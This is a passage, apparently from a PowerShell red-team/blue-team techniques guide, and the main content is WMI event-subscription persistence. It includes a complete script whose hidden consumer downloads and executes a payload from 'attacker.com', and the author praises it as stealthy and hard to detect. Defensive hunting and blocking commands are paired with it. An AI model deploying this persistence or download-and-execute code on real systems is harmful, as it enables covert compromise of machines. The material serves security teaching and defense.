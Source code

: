 **Defense**:  
```powershell  
# Enable Constrained Language Mode  
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  

# Block PowerShell from making web requests  
New-NetFirewallRule -DisplayName "Block PS Web Requests" -Direction Outbound -Action Block -Protocol TCP -RemotePort 80,443 -Program "powershell.exe"  

# Enable AMSI (Antimalware Scan Interface)  
Set-MpPreference -DisableScriptScanning $false  
```  

---

#### **2. WMI Event Subscription (Persistence)**  
```powershell  
# Create a WMI event to trigger a payload on system startup  
$filterArgs = @{  
  Name = 'StartupTrigger'  
  EventNameSpace = 'root\CimV2'  
  QueryLanguage = 'WQL'  
  Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"  
}  
$filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $filterArgs  

$consumerArgs = @{  
  Name = 'StartupConsumer'  
  CommandLineTemplate = "powershell.exe -nop -w hidden -c `"iex (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')`""  
}  
$consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $consumerArgs  

New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{  
  Filter = $filter  
  Consumer = $consumer  
}  
```  
- **Why It’s Strong**:  
  - WMI is a trusted Windows component, so this technique often flies under the radar.  
  - The payload is executed without writing to disk or creating suspicious processes.  
- **My Opinion**:  
  - This is a **top-tier persistence mechanism** for red teams and attackers. It’s incredibly stealthy and hard to detect without deep WMI monitoring.  

**Defense**:  
```powershell  
# Hunt for malicious WMI subscriptions  
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter  
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer  

# Block WMI entirely if unused  
Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block  
```  

---